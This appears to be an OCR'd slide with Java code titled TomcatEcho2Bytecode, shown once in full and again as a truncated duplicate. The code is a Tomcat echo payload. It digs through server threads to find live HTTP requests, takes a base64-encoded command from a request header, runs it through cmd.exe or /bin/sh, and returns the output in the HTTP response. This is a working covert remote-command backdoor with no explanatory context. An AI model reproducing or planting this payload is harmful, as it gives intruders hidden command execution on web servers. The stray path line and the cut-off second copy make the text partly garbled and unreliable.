 ````md magic-move
public TomcatEcho2Bytecode() {
    try {
        boolean done = false;
        Thread[] threads = (Thread[]) getFV(Thread.currentThread().getThreadGroup(), "threads");
        for (Thread thread : threads) {
            if (thread == null) {
                continue;
            }
            String threadName = thread.getName();
            if (threadName.contains("exec") || !threadName.contains("http")) {
                continue;
            }
            Object target = getFV(thread, "target");
            if (!(target instanceof Runnable)) {
                continue;
            }
            try {
                target = getFV(getFV(getFV(target, "this$0"), "handler"), "global");
            } catch (Exception e) {
                continue;
            }
            List processors = (List) getFV(target, "processors");
            for (Object processor : processors) {
                Object req = getFV(processor, "req");
                Object response = req.getClass().getMethod("getResponse").invoke(req);
                try {
                    String data = (String) req.getClass().getMethod("getHeader", String.class)
                        .invoke(req, new String(header));
                    if (data != null && !data.isEmpty()) {
                        String c = new String(Base64.getDecoder().decode(data));
                        String[] cmd = System.getProperty("os.name").toLowerCase().contains("window") 
                            ? new String[]{"cmd.exe", "/c", c} 
                            : new String[]{"/bin/sh", "-c", c};
                        writeBody(response, 
                            ((new Scanner((new ProcessBuilder(cmd)).start().getInputStream()))
                                .useDelimiter("\\A").next() + "=====").getBytes());
                        return;
                    }
                } catch (Exception var13) {
                    writeBody(response, var13.getMessage().getBytes());
                }
            }
        }
    } catch (Exception ignored) {
    }
}
```
```java
public TomcatEcho2Bytecode() {
    try {
        Thread[] threads = (Thread[]) getFV(Thread.currentThread().getThreadGroup(), "threads");
        for (Thread thread : threads) {
            if (thread == null) {
                continue;
            }
            String threadName = thread.getName();
            if (threadName.contains("exec") || !threadName.contains("http")) {
                continue;
            }
            Object target = getFV(thread, "target");
            if (!(target instanceof Runnable)) {
                continue;
````